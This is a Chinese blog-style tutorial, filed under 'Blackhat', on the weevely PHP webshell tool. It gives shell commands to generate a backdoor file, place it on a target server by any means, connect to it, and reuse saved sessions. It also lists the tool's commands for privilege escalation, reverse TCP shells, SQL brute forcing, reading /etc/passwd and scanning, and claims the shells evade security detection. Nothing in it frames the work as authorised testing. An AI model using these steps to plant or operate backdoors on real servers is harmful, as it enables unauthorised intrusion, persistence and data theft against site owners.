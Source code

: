 ```yaml
---
title: 生成、管理、连接php后门webshell工具weevely的使用
name: weevely-php-webshell
date: 2016-4-13
tags: [php后门,webshell,weevely]
categories: [Blackhat]
---
```


* 目录
{:toc}

---


# 生成、管理、连接php后门webshell工具weevely的使用

## 1. 介绍

**[weevely](https://github.com/epinna/weevely3)**是一种命令行的webshell，它能生成php后门文件以及连接的功能。提供类似与ssh命令行终端的操作方式，weevely每次生成的webshell都不一样，所以可以有效的避免安全系统的查杀。

## 2. 特性

* SSH终端的操作
* 在目标主机上运行sql控制台
* 在目标主机上使用代理服务
* 主机配置安全审计
* 挂在目标系统文件到本地
* 在目标主机上进行扫描
* 文件上传和下载
* 正向反向TCPshell
* 暴力破解
* 管理压缩归档

## 3. 依赖安装

由于weevely是python程序编写，所以需要安装python2.7的环境以及下载weevely的主程序包，另外还需要安装weevely的python依赖库，如下：

**linux依赖库安装**

```shell
sudo apt-get install g++ python-pip libyaml-dev python-dev
sudo pip install prettytable Mako PyYAML python-dateutil PySocks –upgrade
```

**osx依赖库安装**

```shell
sudo port install python27 py27-pip
sudo port select –set pip pip27
sudo port select –set python python27
sudo pip install prettytable Mako PyYAML python-dateutil readline PySocks –upgrade
```

**windows依赖库安装**

```shell
pip install prettytable Mako PyYAML python-dateutil pyreadline PySocks –upgrade
```

## 4. 使用

### 4.1 生成php后门文件

```shell
# weevely generate <连接密码> <后门保存路径>
weevely generate 123321 /root/b.php
```

### 4.2 上传后门文件

无论你用什么方式，只要把后门文件放到对方服务器中，且通过浏览器能访问到，可能是白板，但不会有404错误。

### 4.3 shell连接后门文件

```shell
# weevely <服务器后面HTTP路径> <连接密码>
weevely //vinny.cc/b.php 123321
```

![weevely](/vinnycc.oss-cn-shanghai.aliyuncs.com/20190320/weevely-1.png)

> **weevely**可以保存连接的**session**，此**session**并非是http里会话的概念，weevely的session保存的是站点的连接信息，通常情况下会保存在"~/.weevely/sessions/站点域名/后面文件名_x.session"中，如："/root/.weevely/sessions/www.wangjunneil.com/b_0.session"。那么在下次连接到后面时可以通过此session文件进行连接，如下：

```shell
# weevely session <session文件路径> <shell命令>
weevely session /root/.weevely/sessions/www.wangjunneil.com/b_0.session
weevely session /root/.weevely/sessions/www.wangjunneil.com/b_0.session ls -al
```

## 5. weevely内部命令

```
weevely> help

 :audit_filesystem     审计系统文件错误的权限
 :audit_etcpasswd      查看linux系统下/etc/passwd的口令文件
 :audit_phpconf        查看当前系统php的配置信息
 :audit_suidsgid       通过SUID或SGID查找文件
 :shell_su             使用su命令提权
 :shell_sh             运行一个shell命令
 :shell_php            运行一个php命令
 :system_extensions    查看php和server服务器的扩展
 :system_info          全局查看系统信息
 :backdoor_tcp         Spawn a shell on a TCP port.
 :backdoor_reversetcp  运行一个反向TCP shell
 :bruteforce_sql       暴力破解SQL数据库
 :file_grep            查找匹配的文件
 :file_zip             压缩或解压缩zip文件
 :file_upload2web      Upload file automatically to a web folder and get corresponding URL.
 :file_enum            Check existence and permissions of a list of paths.
 :file_read            从远程系统读取文件
 :file_cd              切换目录
 :file_ls              列出目录内容
 :file_rm              删除文件
 :file_check           获取文件信息
 :file_gzip            压缩或解压缩gzip文件
 :file_cp              复制单个文件
 :file_tar             压缩或解压缩tar文件
 :file_bzip2           压缩或解压缩bzip2文件
 :file_upload          上传文件
 :file_webdownload     Download URL to the filesystem
 :file_touch           改变文件时间戳
 :file_edit            编辑文件
 :file_find            用给出的名称和属性查找文件
 :file_download        下载文件
 :file_mount           使用HTTPfs挂在远程文件系统到本地
 :sql_dump             Multi dbms mysqldump replacement.
 :sql_console          打开SQL控制台
 :net_curl             Perform a curl-like HTTP request.
 :net_scan             TCP端口扫描
 :net_ifconfig         获取网卡信息
 :net_proxy            开启本地代理
 :net_phpproxy         在系统中安装php代理
```
